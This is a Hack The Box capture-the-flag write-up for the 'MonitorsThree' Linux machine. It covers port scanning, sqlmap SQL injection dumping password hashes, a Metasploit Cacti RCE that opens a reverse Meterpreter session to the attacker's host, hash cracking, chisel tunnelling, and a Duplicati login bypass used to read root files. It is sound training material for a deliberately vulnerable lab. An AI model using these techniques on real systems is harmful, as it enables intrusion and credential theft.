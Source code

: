 ```yaml
---
layout: post
title: "HTB Linux Medium: MonitorsThree"
description: "MonitorsThree is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Medium]
author: g
---
```



### Nmap
```bash
nmap -sC -sV -p22,80,8084 10.129.5.197
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 10:36 CEST
Nmap scan report for 10.129.5.197
Host is up (0.017s latency).

PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```

Modify hosts file:
```bash
tail -n 1 /etc/hosts
10.129.5.197 monitorsthree.htb
```


### Enumerate HTTP (Port 80)
Subdomain enumeration:
```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://monitorsthree.htb/ -H "Host: FUZZ.monitorsthree.htb" -fl 338

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsthree.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.monitorsthree.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 338
________________________________________________

[                       [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 14ms]
cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1980 req/sec :: Duration: [0:00:12] :: Errors: 0 
```

Modify hosts file:
```bash
tail -n 1 /etc/hosts
10.129.5.197 monitorsthree.htb cacti.monitorsthree.htb
```

The forgot_password.php page is vulnerable to error-based SQL injection.
![Pasted image 20240825115029.png](/images/Pasted image 20240825115029.png){: .normal }


Dump DB name using sqlmap.
![Pasted image 20240825115205.png](/images/Pasted image 20240825115205.png){: .normal }


The users table seems to exist, let's enumerate it's columns using sqlmap:
```bash
sqlmap -r pain.req -D "monitorsthree_db" -T "users" -p "username" --dump

[11:58:31] [INFO] retrieved: id
[11:59:06] [INFO] retrieved: username
[12:01:09] [INFO] retrieved: email
[12:02:26] [INFO] retrieved: password
```

Dump the username and password column:
```bash
sqlmap -r pain.req -D "monitorsthree_db" -T "users" -C username,password -p "username" --dump

1e68b6eb86b45f6d92f8f292428f77ac
31a181c8372e3afc59dab863430610e8
```
> Crack second hash using crackstation: "greencacti2001".
{: .prompt-info }


We can now log in to the cacti application using: `admin:greencacti2001`
![Pasted image 20240825122902.png](/images/Pasted image 20240825122902.png){: .normal }


Found Metasploit module to gain RCE: [Link](https://www.rapid7.com/db/modules/exploit/multi/http/cacti_package_import_rce/)
```
msf6 > use exploit/multi/http/cacti_package_import_rce
msf6 exploit(multi/http/cacti_package_import_rce) > set target 1
msf6 exploit(multi/http/cacti_package_import_rce) > set lhost tun0
lhost => 10.10.15.32
msf6 exploit(multi/http/cacti_package_import_rce) > set rhosts cacti.monitorsthree.htb
rhosts => cacti.monitorsthree.htb
msf6 exploit(multi/http/cacti_package_import_rce) > set password greencacti2001
password => greencacti2001
msf6 exploit(multi/http/cacti_package_import_rce) > run

[*] Started reverse TCP handler on 10.10.15.32:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `admin` and password `greencacti2001`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[+] Deleted /var/www/html/cacti/resource/YxrcpwjO.php
[+] Deleted /var/www/html/cacti/resource/DLgdwddkQx
[*] Meterpreter session 1 opened (10.10.15.32:4444 -> 10.129.5.197:37410) at 2024-08-25 12:30:11 +0200
```


### Lateral movement
Found more DB credentials.
```bash
# MySQL creds:
cactiuser:cactiuser
root:cactiroot
```

Logged in to the DB and found the hash of the marcus user:
```bash
MariaDB [cacti]> select username,password from user_auth;
select username,password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |
| guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |
| marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |
+----------+--------------------------------------------------------------+
3 rows in set (0.000 sec)
```

Crack the hash:
```bash
john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678910      (?)     
1g 0:00:00:02 DONE (2024-08-25 15:10) 0.3846g/s 180.0p/s 180.0c/s 180.0C/s 12345678910..christina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Switch to the marcus user using his password:
```bash
www-data@monitorsthree:/tmp$ su marcus
Password: 12345678910

marcus@monitorsthree:/tmp$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
```

User flag:
```bash
marcus@monitorsthree:~$ cat user.txt
1e7536ccca817eba5ec671893197ec9e
```


### Privilege Escalation
Port forward: 
```bash
# Target
./chisel server -p 9001

# Kali
chisel client 10.129.137.58:9001 8200:localhost:8200
```

We need a password to log in, found sqlite file in /opt folder:
![Pasted image 20240825142751.png](/images/Pasted image 20240825142751.png){: .normal }


Found possible login bypass using the server-passphrase: [Link](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee), intercept request with Burp:
![Pasted image 20240825144414.png](/images/Pasted image 20240825144414.png){: .normal }


Turn the server passphrase into hex:
![Pasted image 20240825144458.png](/images/Pasted image 20240825144458.png){: .normal }


Next modify the following (nonce is response of server):
```
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('<NONCE>') + '<HEX>')).toString(CryptoJS.enc.Base64);
```
![Pasted image 20240825144539.png](/images/Pasted image 20240825144539.png){: .normal }
> On password field add the noncedpwd and URL encode.
{: .prompt-info }


We are in:
![Pasted image 20240825144613.png](/images/Pasted image 20240825144613.png){: .normal }


Add a new backup:
 1. No encryption
 2. Manual path: `/source/home/marcus/`
 3. Source data: `/source/root/`
 4. Schedule: uncheck `Automatically run backups`
 5. Save
 6. Run now

In the home directory of the marcus user we should now find the ZIP files which we can unzip. In the `filelist.json` file, we find the root.txt file name hash:
```bash
unzip *.zip
cat filelist.json

"path":"/source/root/root.txt","hash":"XV5LXvgYgw/TCl+0sh2UWVmX3t4OLLW5DDe0UWrC/Os="
```


Root flag: `87c41a2fa2b7a9f49797ffee1c50bfd5`
```bash
marcus@monitorsthree:~$ cat XV5LXvgYgw_TCl-0sh2UWVmX3t4OLLW5DDe0UWrC_Os\= 
87c41a2fa2b7a9f49797ffee1c50bfd5
```


### Pwned!!!
![Pasted image 20240825154321.png](/images/Pasted image 20240825154321.png){: .normal }
